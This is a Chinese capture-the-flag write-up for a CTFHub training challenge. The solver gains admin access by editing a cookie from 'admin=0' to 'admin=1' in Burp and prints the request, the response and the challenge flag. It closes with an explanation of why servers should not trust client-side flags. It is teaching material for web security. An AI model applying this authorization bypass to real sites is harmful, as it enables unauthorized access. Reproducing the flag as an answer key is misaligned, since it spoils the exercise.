

# WP：Cookie

> **CTFHub 路径**：技能树 → Web → Web 前置技能 → HTTP 协议 → Cookie
> **任务**：按题目提示修改 Cookie，拿到 flag。
> **提示**：在 DevTools 的 Application/Storage → Cookies 中查看 Cookie，或在 Burp 的请求头中查看。修改后重放请求，观察页面变化。
> **截图要求**：能看到修改后的 Cookie 请求头，以及服务器返回的 flag 或成功页面。

---

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 环境地址 | http://challenge-cf2d1005accf1372.sandbox.ctfhub.com:10800/ |
| Flag | ctfhub{177798d50aa5bf3e98e4753c} |

## 解题过程

开启题目后访问靶场首页，页面只提示需要管理员身份才能看到 flag，直接访问什么也拿不到。我按 F12 打开 DevTools，在 **Application → Storage → Cookies** 里看到这个域名下有 `admin=0`，说明服务端是靠这个 Cookie 判断“我是不是管理员”的，而 `0` 显然代表普通用户。我又在 Burp 的 **Proxy → HTTP history** 里确认请求头中确实带着 `Cookie: admin=0`，于是把这条请求 Send to Repeater，把 Cookie 改成 `admin=1` 再 Send。响应变成 `HTTP/1.1 200 OK`，响应体里出现了 flag，`Content-Length: 32` 也正好是这串 flag 的长度。整个过程没有登录、没有密码，只是改了一个客户端自己保存的值。

## 关键请求/响应

```http
GET / HTTP/1.1
Host: challenge-cf2d1005accf1372.sandbox.ctfhub.com:10800
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: admin=1

HTTP/1.1 200 OK
Server: openresty/1.21.4.2
Date: Sat, 24 Oct 2026 17:17:04 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/5.6.40
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: X-Requested-With
Access-Control-Allow-Methods: *
Content-Length: 32

ctfhub{177798d50aa5bf3e98e4753c}
```

改动只有一处：`Cookie: admin=0` → `Cookie: admin=1`，其余请求行和请求头都保持原样。

## 原理与复盘

Cookie 放在 HTTP **请求头**里，是浏览器自动携带的一小段键值数据；服务器用 `Set-Cookie` 把它发给客户端，之后每次请求客户端都原样带回去，所以它可以用来在无状态的 HTTP 上“记住我是谁”。问题在于 Cookie 存在客户端，用户可以随意修改，如果服务端把它当成唯一的身份凭据（比如这里的 `admin=0/1`），就等于把权限判断交给了用户。正确的做法是用不可猜测的 Session ID 对应服务端保存的会话，权限由服务端根据会话查出来，而不是由请求里的明文标志位决定。

---

## 截图



> 可以在这份 WP 中另加过程截图；检查时只看指定图片，额外图片不检查。
